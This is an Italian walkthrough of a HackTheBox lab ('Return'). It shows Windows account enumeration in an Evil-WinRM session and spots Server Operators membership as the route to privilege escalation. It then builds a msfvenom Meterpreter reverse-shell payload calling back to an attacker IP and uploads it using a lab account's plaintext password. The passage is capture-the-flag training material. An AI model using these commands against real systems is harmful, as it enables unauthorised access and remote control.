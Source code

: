`net user svc-printer` restituisce le caratteristiche dell'utente svc-printer
``` 
*Evil-WinRM* PS C:\Users\svc-printer\Documents> net user svc-printer
User name                    svc-printer
Full Name                    SVCPrinter
Comment                      Service Account for Printer
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            5/26/2021 1:15:13 AM
Password expires             Never
Password changeable          5/27/2021 1:15:13 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   5/26/2021 1:39:29 AM

Logon hours allowed          All

Local Group Memberships      *Print Operators      *Remote Management Use
                             *Server Operators
Global Group memberships     *Domain Users
```
svc-printer fa parte del gruppo `*Server Operators`, questo è l'errore di configurazione che consentirà di scalare i privilegi.
## Privilege escalation

Tramite [[evil-winrm]]possiamo caricare file in upload, ad esempio una shell di meterpreter, poi con la shelle di meterpreter si potrà provare a ottenere system e rendere persistente la shell.
Prepariamo la shell con [[msfvenom]]

`msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.14.15 lport=4444 -f exe -o shell.exe`

Poi la carichiamo con il comando `upload shell.exe` lanciato nella macchina vittima
``` bash
❯ evil-winrm -i '10.10.11.108' -u 'svc-printer' -p '1edFg43012!!'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-printer\Documents> upload shell.exe
                                        
Info: Uploading /home/parrot/Macchine/HackTheBox/Return/shell.exe to C:\Users\svc-printer\Documents\shell.exe
                                        
Data: 98400 bytes of 98400 bytes copied
                                        
Info: Upload successful!
```

